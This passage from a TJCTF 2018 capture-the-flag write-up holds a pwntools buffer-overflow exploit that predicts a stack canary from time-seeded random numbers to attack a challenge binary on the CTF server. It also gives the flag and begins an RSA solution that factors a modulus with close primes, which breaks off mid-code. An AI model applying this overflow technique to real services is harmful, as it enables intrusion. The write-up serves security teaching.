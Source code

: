This is a program that spits out ten random integers that will be generated x seconds in the future. Combining this with the python script below, we are able to safely override our variables without changing the canary:

```python
from pwn import *
import subprocess

context.log_level = 'debug'
context.binary = './interview'

# sh = process('./interview')
sh = remote('problem1.tjctf.org', 8000)

r = list(map(lambda x: p32(int(x)), subprocess.check_output(["./exploit", '0']).strip().split(' ')))

payload = 'a'*64 # pad
payload += ''.join(r) # canary
payload += p32(0x01010101) # j
payload += p32(0x01010101) # i
for i in range(20):
  payload += p32(3752771558)

sh.sendlineafter('?\n', payload)
sh.interactive()
```

Flag: `tjctf{3l_p5y_k0n6r00_0ur_n3w357_l4b_m3mb3r!}`

# Classic - Cryptography

## Problem

Written by etherlyt

My primes might be close in size but they're big enough that it shouldn't matter right? [rsa.txt](/blog/tjctf-2018-writeup/Classic/rsa.txt)

## Solution

Just factor n. In this case, I used [this tool](https://www.alpertron.com.ar/ECM.HTM) to do the job.

Code:

```python
# https://crypto.stackexchange.com/questions/19444/rsa-given-q-p-and-e
e = 65537
n = 128299637852747781491257187842028484364103855748297296704808405762229741626342194440837748106022068295635777844830831811978557490708404900063082674039252789841829590381008343327258960595508204744589399243877556198799438322881052857422197506822302290812621883700357890208069551876513290323124813780520689585503
c = 43160414063424128744492209010823042660025171642991046645158489731385945722740307002278661617111192557638773493117905684302084789590107080892369738949935010170735247383608959796206619491522997896941432858113478736544386518678449541064813172833593755715667806740002726487780692635238838746604939551393627585159
p = 11326943005628119672694629821649856331564947811949928186125208046290130000912120768861173564277210907403841603312764378561200102283658817695884193223692869
q = 11326943005628119672694629821649856331564947811949928186125208046290130000912216246378177299696220728414241927034282796937320547048361486068608744598351187

def egcd(a, b):
    x,y, u,v = 0,1, 1,0
    while a != 0:
```